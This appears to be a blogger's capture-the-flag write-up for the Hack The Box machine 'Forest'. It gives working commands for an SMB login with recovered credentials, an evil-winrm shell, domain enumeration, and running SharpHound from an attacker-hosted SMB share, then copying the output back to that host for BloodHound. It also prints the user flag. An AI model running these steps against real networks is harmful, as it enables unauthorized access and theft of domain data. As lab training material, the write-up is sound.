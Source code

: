 I'll connect with `smbclient //forest.htb/SHARE --user svc-alfresco%s3rvice`. Rooting around a bit in the `SYSVOL` share, I found a `GptTmpl.inf`. I found out it sets user rights within the domain, and I'd love to do more research on it later.

Other than this, re-enumeration doesn't yield to much, but it doesn't matter because we can establish a shell using `evil-winrm` and enumerate further from there. Keep in mind, this only works because ports `5985` and `47001` are open and running `wsman` and `winrm`. These are the things to calibrate your mind with in the future.

`evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'`

![Image](/assets/Screenshot 2024-09-15 at 12.16.49 AM.png)

Scooting around a bit, we can find the user flag in `\Users\svc-alfresco\Desktop`

![Image](/assets/Screenshot 2024-09-15 at 12.51.21 AM.png)

`USER:43887e0a780a504a4e75db9cd43ef408`

### Privilege Escalation

Now, we can continue to enumerate with `cmd` tools. Use `net user /domain` and `net user svc-alfresco` to flesh out your understanding of the domain's policy and the users roles within them.

![Image](/assets/Screenshot 2024-09-15 at 12.57.56 AM.png)

We're a part of the service accounts group. We'll want to figure out a way to migrate laterally or vertically.
Let's host an ingester called `SharpHound.exe` with our SMB server, and use that to visual understand our paths forward using `Bloodhound`. Start the SMB server by `cp` the `smbserver` to our working directory (take it from one of the other box directories, that means it's probably worked before without dependency issues). Next, prepare the `SharpHound.exe`. preferably from the updated SharpCollection repo, by moving it to the working directory. Then start the server with:

`python3 smbserver.py share /home/li0t/Desktop/HTB/Forest`

Now, we can go to Forest, and use the following to grab it:

`\10.10.14.3\share\SharpHound.exe`

The file should execute, and we will be left with two files. Move the `.zip` file back to our machine with:

`copy FILE.zip \10.10.14.3\share`

![Image](/assets/Screenshot 2024-09-15 at 1.09.43 AM.png)

(NOTE! I've seen TCM do this all remotely from the host machine with a script from his PEH course. I haven't tried it yet, but wanted to include it here in case I come back and want to do things differently: `bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -ns -c all`).

Now, we can start our `neo4j` service for `BloodHound` with `neo4j console`. Open `BloodHound`, login with credentials (neo4j, neo4j1) and import the data with the upload button. Once there, search for a user in the node and the data should populate.

![Image](/assets/Screenshot 2024-09-15 at 1.22.37 AM.png)
